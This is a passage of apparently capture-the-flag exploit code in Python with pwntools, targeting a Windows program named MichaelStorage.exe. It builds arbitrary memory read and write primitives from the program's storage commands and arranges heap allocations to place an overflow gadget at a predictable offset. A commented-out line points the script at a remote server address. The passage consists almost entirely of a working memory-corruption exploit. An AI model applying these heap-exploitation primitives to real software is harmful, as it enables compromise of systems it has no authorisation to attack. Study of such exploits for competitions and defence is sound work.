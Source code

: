 ```python
    p.sendline(str(storage_index))
    p.recvuntil(":")
    p.sendline(str(data_index)) # Note for type == 3, this is a size.
    p.recvuntil(":")
    p.sendline(value)

def get_value(p, storage_index):
    p.recvuntil(":")
    p.sendline("3")
    p.recvuntil(":")
    p.sendline(str(storage_index))
    p.recvuntil("Value:")
    return p.recvuntil("\r\n")[:-2]

def destroy(p, storage_index):
    p.recvuntil(":")
    p.sendline("4")
    p.recvuntil(":")
    p.sendline(str(storage_index))

# Helper primitive offsets
t2_offset = 0x4b018
t3_offset = 0x5c058

# Helper primitive functions
def write_absolute(p, where, what):
    byte_addr = p64(where)
    for j in range(8):
        set_value(p, 4, t3_offset-t2_offset+j, p8(byte_addr[j]))
    set_value(p, 5, len(what)+1, what)

def read_absolute(p, where):
    value = bytearray()
    i = 0
    while i < 8:
        # Set each byte of the address
        byte_addr = p64(where + i)
        set_value(p, 4, t3_offset-t2_offset, byte_addr)
        v = get_value(p, 5)
        if len(v) == 0:
            value += b'\x00'
            i += 1
        else:
            value += bytearray(v)
            i += len(v)
    return u64(value[:8])

#p = remote("localhost", 56746)
#p = remote("52.198.180.107", 56746)
p = process("MichaelStorage.exe")
# My local and server ntdll/kernel32 were the same. Just used for perf since
# leaking addresses is slow.
is_server = 0
recalc_server_leaks = 0

# First backend block that isn't VS
allocate(p, 0, 0xb000)  # 0

# Second backend block that isn't VS (STOP COALESCE)
allocate(p, 0, 0xb000)  # 1

# Third backend block that is VS
allocate(p, 1, 0xDEAD)  # 2 - OVERFLOW GADGET AT DETERMINSTIC OFFSET
```